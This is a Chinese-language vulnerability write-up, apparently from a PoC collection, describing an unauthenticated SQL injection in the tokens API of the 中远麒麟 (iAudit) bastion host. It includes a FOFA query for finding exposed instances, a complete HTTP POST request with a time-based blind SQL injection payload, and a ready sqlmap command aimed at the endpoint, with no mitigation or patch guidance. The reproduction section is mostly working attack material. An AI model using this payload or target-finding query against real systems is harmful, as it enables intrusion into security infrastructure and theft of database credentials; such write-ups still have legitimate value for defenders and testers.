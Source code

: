 # 中远麒麟堡垒机tokensSQL注入漏洞

# 一、漏洞简介
中远麒麟依托自身强大的研发能力,丰富的行业经验，自主研发了新一代软硬件一体化统一安全运维平台一-iAudit 统一安全运维平台。该产品支持对企业运维人员在运维过程中进行统一身份认证、统一授权、统一审计、统一监控，消除了传统运维过程中的盲区，实现了运维简单化、操作可控化、过程可视化，是企业 IT 内控最有效的管理平台。中远麒麟堡垒机admin.php接口处存在sql注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库敏感信息及凭证，最终可能导致服务器失陷。

# 二、影响版本
+ 中远麒麟堡垒机

# 三、资产测绘
+ fofa`cert.subject="Baolei"`
+ 登录页面

![1694188801127-8a840ce3-9c49-40f2-a25e-7073d268576d.png](./img/nE4g5ODj8_AVhbV_/1694188801127-8a840ce3-9c49-40f2-a25e-7073d268576d-879476.png)

# 四、漏洞复现
```plain
POST /baoleiji/api/tokens HTTP/1.1
Host: xx.xx.xx.xx
Cookie: PHPSESSID=66b53a13d3db0e27a9676d419c374c42
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

constr=1' AND (SELECT 6999 FROM (SELECT(SLEEP(10)))ptGN) AND'AAdm'='AAdm&title=%40127.0.0.1
```

![1694189196630-fb35bd59-a136-40d9-933c-3169624d44d8.png](./img/nE4g5ODj8_AVhbV_/1694189196630-fb35bd59-a136-40d9-933c-3169624d44d8-112577.png)

**sqlmap**

```plain
sqlmap -u 'https://xx.xx.xx.xx/baoleiji/api/tokens' --data='constr=1&title=%40127.0.0.1'
```

![1694189648421-30ea9bf7-e73f-4b80-8f5e-764869f2c14a.png](./img/nE4g5ODj8_AVhbV_/1694189648421-30ea9bf7-e73f-4b80-8f5e-764869f2c14a-633219.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hc0u6hawuz8n4lam>
